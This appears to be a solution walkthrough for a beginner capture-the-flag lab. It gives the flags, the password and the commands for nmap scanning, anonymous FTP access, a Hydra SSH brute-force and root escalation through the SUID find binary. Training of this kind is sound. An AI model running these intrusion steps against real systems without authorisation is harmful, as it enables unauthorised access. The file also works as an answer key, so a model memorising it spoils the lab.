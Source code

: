 ## Easy Lab - Complete Walkthrough

This document outlines the intended solution path for the Easy Lab.

### 1. Enumeration & Flag 1

* **Action:** Perform a network scan on the target IP address.
    ```bash
    nmap -sC -sV <TARGET_IP>
    ```
* **Result:** The scan reveals that port 21 (FTP) is open and allows anonymous login.
* **Action:** Log into the FTP server.
    ```bash
    ftp <TARGET_IP>
    # User: anonymous
    # Pass: (blank)
    ```
* **Result:** List the files with `ls`. You will see `FLAG_ENUM.txt`. Download it with `get FLAG_ENUM.txt`.
* **Flag 1:** `OmahTIAcademy{enum_flag_from_ftp_file}`

### 2. Initial Access & Flag 2

* **Action:** While on the FTP server, download the other files: `flag2.txt`, `note.txt`, and `wordlist.txt`.
* **Flag 2:** Reading `flag2.txt` reveals `OmahTIAcademy{anon_ftp_access}`.
* **Clues:** The `note.txt` file gives the username `easyuser`, and `wordlist.txt` provides a short list of passwords.
* **Action:** Use Hydra to brute-force the SSH service with the discovered information.
    ```bash
    hydra -l easyuser -P wordlist.txt <TARGET_IP> ssh
    ```
* **Result:** Hydra will find the password `R3sistance`.
* **Action:** Log into the machine via SSH.
    ```bash
    ssh easyuser@<TARGET_IP>
    ```

### 3. Privilege Escalation & Flag 3

* **Action:** Once on the machine, enumerate for privilege escalation vectors. A common manual check is for SUID binaries.
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```
* **Result:** The output will show `/usr/bin/find` has the SUID bit set.
* **Action:** Use the command from GTFOBins to exploit this misconfiguration.
    ```bash
    /usr/bin/find . -exec /bin/sh -p \; -quit
    ```
* **Result:** You will gain a root shell.
* **Flag 3:** Navigate to the root directory and read the final flag.
    ```bash
    cat /root/flag3.txt
    ```
